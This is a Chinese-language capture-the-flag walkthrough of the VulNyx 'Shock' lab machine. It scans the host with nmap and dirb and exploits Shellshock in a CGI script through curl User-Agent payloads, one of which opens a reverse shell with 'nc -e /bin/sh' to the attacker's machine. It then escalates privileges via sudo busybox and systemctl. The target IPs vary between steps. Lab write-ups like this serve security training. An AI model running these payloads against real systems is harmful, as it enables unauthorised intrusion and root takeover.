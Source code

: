 # 环境

来自[Vulny_Shock](https://vulnyx.com/#Shock)，利用已知shellshock漏洞反弹shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.9.0/24
```

![image-20240906201832154](image/image-20240906201832154-1725625113101-1.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.9.37
```

![image-20240906201910418](image/image-20240906201910418.png)

## 服务详情

```bash
sudo nmap -sVC -O -p22,25,80,110 192.168.9.37
```

![image-20240906202106741](image/image-20240906202106741.png)

## 目录爆破

```bash
dirb http://192.168.9.37
dirb http://192.168.9.37/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/common.txt -X.php,.sh
```

发现有cgi-bin

# web渗透

## 利用存在的shell.sh拿shell

```bash
nmap -p80 --script=http-shellshock --script-args uri=/cgi-bin/shell.sh 192.168.10.15
```

![image-20240906214306577](image/image-20240906214306577.png)

存在Shellshock (CVE-2014–6271)

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id'" "http://192.168.9.37/cgi-bin/shell.sh" #验证
#反弹shell
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'nc -e /bin/sh 192.168.10.10 8888'" "http://192.168.1.81/cgi-bin/shell.sh"
```

## 提权

busybox提权

```bash
sudo -u will /usr/bin/busybox sh
```

systemctl提权

```bash
sudo -u root /usr/bin/systemctl 
!sh
```

